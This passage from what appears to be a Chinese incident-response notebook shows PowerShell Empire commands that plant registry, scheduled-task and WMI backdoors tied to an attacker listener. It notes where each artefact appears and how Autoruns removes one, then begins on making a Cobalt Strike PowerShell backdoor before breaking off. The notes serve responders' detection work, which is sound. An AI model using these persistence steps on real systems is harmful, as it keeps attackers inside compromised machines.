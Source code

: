 **注册表**

```
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-5.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-6.png)

**计划任务**

```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-7.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-8.png)

**wmi**

```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-9.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-10.png)

### 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-3-11.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。
